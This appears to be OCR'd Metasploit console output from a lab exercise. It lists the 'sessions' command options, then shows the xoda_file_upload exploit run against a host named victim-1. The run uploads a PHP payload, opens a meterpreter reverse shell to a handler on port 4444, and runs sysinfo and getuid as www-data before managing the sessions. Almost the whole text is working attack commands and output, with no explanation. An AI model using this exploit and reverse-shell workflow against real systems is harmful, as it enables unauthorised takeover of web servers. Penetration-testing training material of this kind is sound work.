 ```
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -C sysinfo -i 3
[*] Running 'sysinfo' on meterpreter session 3 (192.119.191.3)
Computer    : victim-1
OS          : Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64
Meterpreter : php/linux
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -C getuid -i 3
[*] Running 'getuid' on meterpreter session 3 (192.119.191.3)
Server username: www-data (33)
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -k 3
[*] Killing the following session(s): 3
[*] Killing session 3
[*] 192.119.191.3 - Meterpreter session 3 closed.
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -l

Active sessions
===============

No active sessions.
```

```
msf5 exploit(unix/webapp/xoda_file_upload) > run

[*] Started reverse TCP handler on 192.119.191.2:4444 
[*] Sending PHP payload (rxLfrk.php)
[*] Executing PHP payload (rxLfrk.php)
[*] Sending stage (38247 bytes) to 192.119.191.3
[*] Meterpreter session 4 opened (192.119.191.2:4444 -> 192.119.191.3:52328) at 2023-02-09 03:35:08 +0000
[!] Deleting rxLfrk.php

meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(unix/webapp/xoda_file_upload) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         meterpreter php/linux  www-data (33) @ victim-1  192.119.191.2:4444 -> 192.119.191.3:52328 (192.119.191.3)

```